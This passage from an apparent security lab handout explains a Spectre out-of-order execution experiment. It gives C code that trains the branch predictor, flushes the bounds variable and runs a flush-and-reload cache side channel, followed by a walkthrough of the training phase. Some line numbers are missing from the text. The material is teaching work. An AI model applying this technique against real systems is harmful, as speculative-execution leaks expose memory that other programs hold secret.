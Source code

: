 In this task, we use an experiment to observe the effect caused by
an out-of-order execution. The code used in this experiment is shown below.
Some of the functions used in the code
is the same as that in the previous tasks, so they will not be repeated. 


\begin{lstlisting}[caption=\texttt{SpectreExperiment.c}, label=spectre:list:outoforder]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void victim(size_t x) 
{
  if (x < size) {                          (*@\ding{192}@*)
     temp = array[x * 4096 + DELTA];       (*@\ding{193}@*)
  }
}

int main() 
{
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {               (*@\ding{194}@*)
      victim(i);                           (*@\ding{195}@*)
  }

  // Exploit the out-of-order execution 
  _mm_clflush(&size);                      (*@\ding{80}@*)
  for (i = 0; i < 256; i++)  
      _mm_clflush(&array[i*4096 + DELTA]);
  victim(97);                              (*@\ding{196}@*)

  // RELOAD the probing array
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


For CPUs to perform a speculative execution, they should be able to
predict the outcome of the if condition.  CPUs keep a record of the branches taken in the past,
and then use these past results to predict what branch should be taken in a 
speculative execution. 
Therefore, if we would like a particular branch to be taken in 
a speculative execution, we should train the CPU, so our selected branch 
can become the prediction result. The training is done 
in the \texttt{for} loop starting from Line . 
Inside the loop, we invoke \texttt{victim()} with a small argument (from 0 to 9). These values are
less than the value \texttt{size}, so the true-branch of the if-condition in Line  is
always taken. This is the training phase, which essentially trains the CPU to expect the 
if-condition to come out to be true. 


Once the CPU is trained, we pass a larger value (\texttt{97})
to the \texttt{victim()} function (Line ). This value is larger than \texttt{size},
so the false-branch of the if-condition inside \texttt{victim()} will be taken in
the actual execution, not the true-branch. However, we have flushed the variable \texttt{size}
from the memory, so getting its value from the memory may take a while. This is when the CPU
will make a prediction, and start speculative execution. 




